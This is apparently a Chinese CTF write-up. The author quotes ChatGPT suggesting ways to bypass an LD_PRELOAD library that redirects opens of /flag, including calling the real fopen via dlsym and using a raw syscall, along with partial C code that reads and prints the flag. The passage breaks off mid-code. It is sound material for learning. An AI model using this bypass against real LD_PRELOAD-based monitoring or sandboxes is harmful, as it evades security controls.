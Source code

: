 哈哈，一下通过两问，白捡 400 分，高兴了。
## 为什么要打开 /flag 😡

> 其实我也不会这题，问问 ChatGPT：
> 
> 有一道 CTF 题目，你需要提交一个 linux 下的 ELF 可执行文件，该可执行文件会与另一个 LD_PRELOAD 后的 lib1.so 一起加载，lib1 会重定向所有打开 /flag 的请求以某种方式> 变成打开 /fakeflag 的请求，你需要在这种情况下绕过这个重定向来打开 /flag，以下是 lib1 的源代码：
> ```
> 太长了省略
> ```
> 
> 以下是测试用的 server.py 的源代码：
> ```
> 不长也省略
> ```
> 请注意：你只能修改 your_executable 的内容，不能修改 lib1.so 或者 server.py。

> 这个问题需要绕过 LD_PRELOAD 加载的 lib1.so 对打开 /flag 的请求进行重定向的限制，来打开真正的 /flag 文件。你需要在你的可执行文件中绕过这个限制。
> 
> 有几种方法可以绕过这个限制：
> 
> 1. 使用绝对路径：在你的可执行文件中，直接使用绝对路径来打开 /flag 文件，而不是依赖 LD_PRELOAD 加载的 lib1.so。例如，你可以使用 `fopen("/flag", "r")` 来打开 /> flag 文件。
> 
> 2. 使用 dlsym 获取真正的 fopen 函数地址：你可以使用 dlsym 函数来获取真正的 fopen 函数地址，然后调用它来打开 /flag 文件。首先，你需要在你的可执行文件中包含 > `#include <dlfcn.h>` 头文件。然后，你可以使用以下代码来获取真正的 fopen 函数地址并调用它：
> ```
> void *handle = dlopen("libc.so.6", RTLD_LAZY);
> FILE *(*real_fopen)(const char *restrict, const char *restrict) = dlsym(handle, "fopen");
> FILE *file = real_fopen("/flag", "r");
> ```
> 
> 3. 使用 syscall 系统调用：你可以使用 syscall 系统调用来直接打开 /flag 文件。syscall 函数的第一个参数是系统调用号，第二个参数及之后的参数是系统调用的参数。在 > Linux 中，打开文件的系统调用号是 2，所以你可以使用以下代码来打开 /flag 文件：
> ```
> int fd = syscall(2, "/flag", O_RDONLY);
> ```

然后非常高兴的发现第二种方法是能用的。

其实我也不会用。
> ```cpp
> void *handle = dlopen("libc.so.6", RTLD_LAZY);
> FILE *(*real_fopen)(const char *restrict, const char *restrict) = dlsym(handle, "fopen");
> FILE *file = real_fopen("/flag", "r");
> ```
> 这段代码打开了一个文件，你能补全这段代码，让他把文件内容打印到输出吗

> 是的，我可以帮你完成这段代码。以下是补全后的代码：
> 
> ```c
> #include <stdio.h>
> #include <dlfcn.h>
> 
> int main() {
>     void *handle = dlopen("libc.so.6", RTLD_LAZY);
>     FILE *(*real_fopen)(const char *restrict, const char *restrict) = dlsym(handle, "fopen");
>     FILE *file = real_fopen("/flag", "r");
> 
>     if (file != NULL) {
>         char buffer[256];
>         while(fgets(buffer, sizeof(buffer), file) != NULL) {
>             printf("%s", buffer);
>         }
>         fclose(file);